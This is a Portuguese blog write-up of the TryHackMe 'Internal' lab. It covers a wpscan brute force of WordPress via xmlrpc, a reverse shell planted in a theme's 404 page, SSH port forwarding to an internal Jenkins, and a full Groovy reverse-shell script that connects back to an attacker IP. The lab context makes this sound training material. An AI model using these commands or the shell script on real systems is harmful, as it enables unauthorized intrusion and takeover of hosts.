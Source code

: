 ```yaml
---
title: "TryHackMe - Internal"
classes: wide
header:
  teaser: /assets/images/internal/00.jpg
  overlay_image: /assets/images/internal/00.jpg
  overlay_filter: 0.5
ribbon: DarkSlateBlue
excerpt: "Write Up da máquina Internal do TryHackMe"
description: "Write Up da máquina Internal do TryHackMe"
categories:
  - Write Up
tags:
  - TryHackMe
  - WordPress
  - Jenkins
  - Brute Force
toc: false
toc_sticky: true
toc_label: "Sumário"
toc_icon: "terminal"
---
```


![](/assets/images/internal/01.png){: .align-center}

# Objetivo

"Você foi designado para um cliente que deseja que um pentest seja realizado em um ambiente que deverá ser lançado para produção em três semanas."

# Resolução

Iniciando o processo de recon na máquina alvo, comecei realizando uma enumeração de portas abertas

![](/assets/images/internal/02.png){: .align-center}

Como a porta 80 está aberta, também realizei uma enumeração de diretórios na aplicação web

![](/assets/images/internal/03.png){: .align-center}

Durante a enumeração de diretórios, foi encontrado o diretório "blog", acessando esse diretório é possível encontrar uma aplicação wordpress

![](/assets/images/internal/04.png){: .align-center}

Através das postagens do blog, também foi possível encontrar o nome de um usuário do wordpress

![](/assets/images/internal/05.png){: .align-center}

Durante o processo de recon também foi possível identificar que a aplicação estava com o xmlrpc.php ativo

![](/assets/images/internal/06.png){: .align-center}

O xmlrpc do wordpress nos permite executar alguns ataques contra a aplicação, entre eles, um ataque de brute force

Como já sei o nome de um usuário válido na aplicação (admin), realizei um ataque de brute force através do xmlrpc e, dessa forma, foi possível descobrir a senha do usuário admin do wordpress

```
wpscan --url internal.thm/blog --random-user-agent -U admin -P /usr/share/wordlists/rockyou.txt
```

![](/assets/images/internal/07.png){: .align-center}

Com as credenciais encontradas, foi possível acessar o painel do wordpress

![](/assets/images/internal/08.png){: .align-center}

Com acesso ao painel do wordpress, alterei o template da página 404 do tema que estava sendo usado pela aplicação e coloquei o código de uma reverse shell

![](/assets/images/internal/09.png){: .align-center}

Após isso bastou acessar o endereço para receber a shell

```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

![](/assets/images/internal/10.png){: .align-center}

Dentro do diretório  "/opt" foi possível encontrar um arquivo contendo usuário e senha

![](/assets/images/internal/11.png){: .align-center}

Com as credenciais encontradas, foi possível acessar o host alvo através do SSH

![](/assets/images/internal/12.png){: .align-center}

Com o acesso via SSH, foi possível obter a primeira flag

![](/assets/images/internal/13.png){: .align-center}

Após pegar a flag encontrei outra informação importante dentro do arquivo "jenkins.txt". Nesse arquivo foi informado que existe um Jenkins rodando em um endereço da rede interna

![](/assets/images/internal/14.png){: .align-center}

Para acessar esse serviço da rede interna, realizei um port fowarding utilizando a conexão SSH que já tinha acesso

```
ssh -L 80:172.17.0.2:8080 aubreanna@10.10.69.107
```

![](/assets/images/internal/15.png){: .align-center}

Dessa forma, foi possível acessar o painel do Jenkins que estava rodando na rede interna

![](/assets/images/internal/16.png){: .align-center}

Para obter acesso ao painel da aplicação, foi realizado um novo ataque de brute force

![](/assets/images/internal/17.png){: .align-center}

Após algumas requisições, foi possível encontrar a senha do admin do Jenkins

![](/assets/images/internal/18.png){: .align-center}

E, dessa forma, foi possível acessar o painel de administração

![](/assets/images/internal/19.png){: .align-center}

Com acesso ao painel, foi utilizado o "Script Console" para conseguir uma nova shell, dessa vez no host que está rodando o Jenkins

O seguinte script foi utilizado para isso:

```
String host="10.2.9.158";
int port=8443;
String cmd="bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](/assets/images/internal/20.png){: .align-center}

Executando o script, foi possível receber uma conexão shell

![](/assets/images/internal/21.png){: .align-center}

Novamente foi possível encontrar um arquivo contendo usuário e senha dentro do diretório "/opt"

![](/assets/images/internal/22.png){: .align-center}

Com as credenciais encontradas, foi possível obter acesso no host como usuário root e pegar a última flag

![](/assets/images/internal/23.png){: .align-center}
